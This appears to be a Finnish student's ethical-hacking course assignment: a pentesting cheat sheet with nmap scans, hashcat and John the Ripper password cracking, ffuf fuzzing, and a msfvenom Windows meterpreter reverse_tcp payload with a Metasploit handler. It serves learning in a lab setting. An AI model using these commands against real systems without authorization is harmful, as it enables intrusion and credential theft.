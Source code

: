 
    
 # H6
 
### Laitteisto
 
* Käyttöjärjestelmä	Microsoft Windows 10 Enterprise LTSC 64 bit
* Prosessori i5-6600
* RAM 16 GB
* Virtuaaliohjelmisto : Oracle VM VirtualBox
* Virtuaali käyttöjärjestelmä: Kali 2024.1 - 28th February, 2024 - The first 2024 Kali Rolling release. Kernel 6.6.0, Xfce 4.18.4

 ## A) Cheat sheet

### NMAP
 
    mmap 192.168.1.1 ##Scan a single IP
    nmap 192.168.1.1 192.168.2.1 ##Scan specific IPs
    nmap 192.168.1.1-254 ##Scan a range
    nmap scanme.nmap.org ##Scan a domain
    nmap 192.168.1.0/24 ##Scan using CIDR notation
    -iL nmap -iL targets.txt ##Scan targets from a file
    -iR nmap -iR 100 ##Scan 100 random hosts
    -exclude nmap -exclude 192.168.1.1 ##Exclude listed host

### HASHCAT
    
 $ hashcat -m 0 '6b1628b016dff46e6fa35684be6acc96' rockyou.txt -o solved

Mikä suorittaa Hashcat ohjelman. '-m 0' määrittää halutun tiivistetyypin (MD5 tässä tapauksessa, suosituin), sitten annetaan salasanatiiviste ja määritetään käytettävä sanakirja. '-o solved' tallentaa vastauksen solved-nimiseen tiedostoon.

### FUFF
    

       $ ./ffuf -w /home/r01/Documents/common.txt -u http://127.0.0.2:8000/FUZZ -ac

Komento käynnistää ffuff-ohjelman ( ./ffuf -w), seuraavaksi määritellään sanakirja (/home/r01/Documents/common.tx), sitten kohde (-u http://127.0.0.2:8000/FUZZ) ja lopuksi käytin komentoa autocalibrate (-ac), mikä automaattisesti määrittää suodattimet

###John The ripper

John the ripper on Hashcatin tapainen ohjelma joka toimii hieman eri tavalla.


    ./john tero.zip.hash ## Luo tiivisteen tiedostomuodosta joka on salasana suojattu

    ./john tero.zip.hash ## Ajaa ohjelman ja murtaa tiedoston tero.zip.hash

Asennus:

    $ sudo apt-get update
    $ sudo apt-get -y install micro bash-completion git build-essential libssl-dev zlib1g zlib1g-dev zlib-gst libbz2-1.0 libbz2-dev atool zip wget


    $ git clone --depth=1 https://github.com/openwall/john.git
    $ cd john/src/
    $ ./configure
    $ make -s clean && make -sj4

Käyttö:

    $ $HOME/john/run/zip2john tero.zip >tero.zip.hash
    $ $HOME/john/run/john tero.zip.hash 
    
    





###MSFVENOM ja METASPLOITABLE

    msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>

Esimerkki:

    msfv -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=80 -f exe

Ylläoleva komento luo reverse tcp haittaohjelman joka kuuntelee osoitetta 127.0.0.1:80 ja ohjelma on .exe ajettava.

Metasploitablen käyttöön löysin hyvän sivuston missä vinkkejä sen käytöstä: https://www.comparitech.com/net-admin/metasploit-cheat-sheet/

Multi/handler:

    msfconsole
    use multi/handler/payload
    SET payload <haittaohjelma>
    SET LHOST <kuunteluosoite>
    SET LPORT <kuunteluportti>
    run -j ## Ajaa multihandlerin taustalla.

    
Metasploitableen on olemassa hyvä cheatsheet kuvana: 

![image](https://github.com/FredrikAkerlund/Starting-pentesting/assets/122887178/68fbebe5-8878-4be8-925f-cfa19839fb80)

Kuvan lähde: https://www.comparitech.com/net-admin/metasploit-cheat-sheet/

###Pencode

Pencode avulla voi helposti koodata stringejä haluamaksi

    echo 'hello world' | pencode md5   ## Koodaa hello world MD5 tiivisteeksi     
        5eb63bbbe01eeed093cb22bb8f5acdc3 ##MD5 tiiviste****


    pencode - complex payload encoder v0.4

    Usage: ./pencode FUNC1 FUNC2 FUNC3...
    
    ./pencode reads input from stdin by default, which is typically piped from another process.
    
    OPTIONS:
    -input reads input from a file, line by line.
    
    ENCODERS
      b64encode         - Base64 encoder
      hexencode         - Hex string encoder
      htmlescape        - HTML escape
      jsonescape        - JSON escape
      unicodeencodeall  - Unicode escape string encode (all characters)
      urlencode         - URL encode reserved characters
      urlencodeall      - URL encode all characters
      utf16             - UTF-16 encoder (Little Endian)
      utf16be           - UTF-16 encoder (Big Endian)
      xmlescape         - XML escape
    
    DECODERS
      b64decode         - Base64 decoder
      hexdecode         - Hex string decoder
      htmlunescape      - HTML unescape
      jsonunescape      - JSON unescape
      unicodedecode     - Unicode escape string decode
      urldecode         - URL decode
      xmlunescape       - XML unescape
    
    HASHES
      md5               - MD5 sum
      sha1              - SHA1 checksum
      sha224            - SHA224 checksum
      sha256            - SHA256 checksum
      sha384            - SHA384 checksum
      sha512            - SHA512 checksum
    
    OTHER
      filename.tmpl     - Replaces string #PAYLOAD# in content of a file that has .tmpl extension.
      lower             - Convert string to lowercase
      upper             - Convert string to uppercase


 
## B)





## Lähteet



Tunkeutumistestaus 2024, Tero Karvinen (https://terokarvinen.com/2024/eettinen-hakkerointi-2024/)

https://github.com/FredrikAkerlund/Starting-pentesting/blob/main/h6%20Countdown%20to%20CTF.md

Kali 2024.1 - 28th February, 2024 - The first 2024 Kali Rolling release. Kernel 6.6.0, Xfce 4.18.4. (https://www.kali.org/get-kali/#kali-platforms)






#### Tehnyt Roi Partanen 28.4.2024
